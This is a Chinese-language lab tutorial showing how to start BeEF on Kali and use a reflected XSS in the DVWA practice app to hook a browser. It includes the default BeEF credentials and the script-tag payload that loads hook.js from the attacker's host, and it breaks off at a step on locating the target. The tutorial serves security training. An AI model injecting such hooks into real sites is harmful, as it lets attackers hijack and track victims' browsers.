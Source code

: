 # beef 利用DVWA反射型2XSS利用

## 1.启动kali下的Beef

可以输入以下命令来开启beef

```
systemctl start beef-xss.service  #开启beef
systemctl stop beef-xss.service     #关闭beef
systemctl restart beef-xss.service  #重启beef
```

终端显示以下界面表示beef已经被成功启动

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7t8rse627j30on0d7wly.jpg)

## 2.登录到beef管理UI

在开启beef后会自动跳转打开浏览器进入到beef的管理界面

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7t8uxio7xj30s40fb3zl.jpg)

输入默认的 账号/密码 `beef/beef` 登录UI管理界面。

也可以使用外部的浏览器登录到beef进行管理 

`beef管理ui界面：http://192.168.0.70:3000/ui/panel` 

这里的ip地址为 kali 的ip ，因为beef部署在上面。

## 3.执行攻击语句

在我们开启beef的时候已经给到了我们script 的攻击语句

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7t97idybxj30ok0cxwnk.jpg)

但是我们需要根据实际情况进行更改再执行，

`beef攻击语句：<script src="http://<IP>:3000/hook.js"></script>`

IP 为beef攻击机的ip地址 

列：`<script src="http://192.168.0.70:3000/hook.js"></script>`

在真实的环境中会出现WAF对XSS所输入的语句有过滤的情况这时就需要灵活的去构造攻击语句来进行绕过WAF，让beef的攻击语句能成功的执行。

将构造好的攻击语句在存在xss的位置执行 

列：![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7t9osrckmj31hc0gmgo3.jpg)

js语句执行后登录到beef 服务器的UI管理界面发现目标浏览器已经被hook上线。

![1570702566231](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1570702566231.png)

这时已经成功hook到目标机的浏览器，可以执行beef提供的命令操作

![image.png](http://ww1.sinaimg.cn/large/007bHQE8gy1g7t9wfw16tj305x0ni0tu.jpg)

4.获取目标机的位置信息。

